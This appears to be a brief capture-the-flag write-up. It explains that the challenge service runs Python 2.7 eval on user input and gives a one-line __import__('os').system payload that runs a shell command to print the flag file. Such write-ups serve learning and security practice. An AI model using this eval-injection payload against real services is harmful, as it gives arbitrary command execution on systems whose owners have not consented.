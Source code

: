 Due to the service using python 2.7 eval we cant use a normal import but using `__import__` works and so we can cat the flag

```py
__import__('os').system('cat flag.txt')
```